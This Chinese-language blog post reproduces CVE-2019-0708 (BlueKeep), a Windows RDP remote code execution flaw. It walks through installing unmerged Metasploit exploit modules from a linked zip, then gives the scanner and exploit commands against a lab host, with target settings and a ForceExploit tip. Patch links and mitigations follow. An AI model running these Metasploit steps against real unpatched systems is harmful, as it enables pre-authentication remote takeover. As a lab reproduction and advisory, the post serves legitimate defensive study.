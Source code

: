 ```yaml
---
title: CVE-2019-0708复现
date: 2019-09-07 11:15:29
---
```

2019年9月7日凌晨,metasploit官方发布CVE-2019-0708漏洞利用代码,该EXP可以通过RDP协议进行远程代码执行攻击.官方描述此漏洞相关危害可参考2017年WannaCry事件,强烈建议用户及时安装补丁以避免受到损失.

## 漏洞始末

### 漏洞原理

CVE-2019-0708(远程代码执行漏洞),当未经身份验证的攻击者使用RDP连接到目标系统并发送特制请求时,即可以触发该漏洞.此漏洞属于预身份验证,无需用户交互,成功利用此漏洞的攻击者可以安装应用程序,查看、更改或删除数据或创建具有完全用户权限的新账户.

恶意攻击者还很有可能利用该漏洞编写定制的恶意软件,利用此漏洞的恶意软件传播影响都可能与2017年WannaCry恶意软件遍布全球的事件类似,由于EXP的公开发布,需要广大用户更加警惕利用该漏洞的恶意软件的出现,提前做好预防措施.

### 漏洞时间

2019-5-14 Microsoft发布安全更新公告并披露漏洞.

2019-9-7 EXP发布并复现验证,证实该EXP可导致服务器远程代码执行,特再次发布预警,提供解决方案给广大企业用户.

### 影响范围

目前受影响的Windows版本:
Microsoft Windows XP
Microsoft Windows Server 2008 R2 for x64-based Systems SP1
Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
Microsoft Windows Server 2008 for x64-based Systems SP2
Microsoft Windows Server 2008 for Itanium-based Systems SP2
Microsoft Windows Server 2008 for 32-bit Systems SP2
Microsoft Windows Server 2003
Microsoft Windows 7 for x64-based Systems SP1
Microsoft Windows 7 for 32-bit Systems SP1

### 漏洞类型

远程代码执行

## 漏洞验证

### 环境准备

Metasploit
[EXP对应脚本](http://www.si1ent.xyz/Tools/CVE-2019-0708MSF.zip)
Windows 7 x64 旗舰版6.1.7601 Service Pack 1 Build 7601

### 实操

#### Metasploit模块重载

该EXP被发布者在Metasploit的官方Github的Pull Request中,但尚未加载进Metasploit的官方框架中. 所以下载EXP对应脚本并进行替换！！！！！直接替换！！！

msf对应位置:

```BASH
rdp.rb ----> /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit/rdp.rb

rdp_scanner.rb ----> /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb

cve_2019_0708_bluekeep.rb ----> /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

cve_2019_0708_bluekeep_rce.rb ----> /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

重载模块

msf5>reload_all

#### 漏洞检测

```bash
msf5>use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5>set RHOSTS 172.16.144.142
msf5>run
```

![](/images/cve0708/cve_check.jpg)

#### 漏洞利用

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS 172.16.144.142
set target 3(target根据自己系统版本设定)
run
```

![](/images/cve0708/cve_attack.jpg)

#### 可能存在问题

\* set target 1 - bluescreen(可能出现蓝屏重启)
\* set target 3 - success
如果出现下图:

![](/images/cve0708/cve1.jpg)

尝试设置: set ForceExploit true

## 漏洞加固

#### 及时进行补丁更新

Microsoft在2019年5月14日修复了该漏洞
[补丁下载地址](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)
以及为已不受微软更新支持的系统(Windows Server 2003和Windows XP)提供的安全更新
[补丁下载地址]( https://support.microsoft.com/zh-cn/help/4500705/customer-guidance-for-cve-2019-0708)

#### 缓解措施

在无法及时安装微软安全更新的情况下作为临时性解决方案

- 若用户不需要用到远程桌面服务,建议禁用该服务.
- 开启网络级别身份验证(NLA),此方案适用于Windows 7, Windows Server 2008, Windows Server 2008 R2 以上缓解措施只能暂时性针对该漏洞对系统进行部分缓解,强烈建议在条件允许的情况下及时安装微软安全更新.

## 参考

```php+HTML
https://github.com/rapid7/metasploit-framework/pull/12283?from=timeline&isappinstalled=0
https://mp.weixin.qq.com/s/Mf5TuATyyU7-W2VDHCRKnA
```

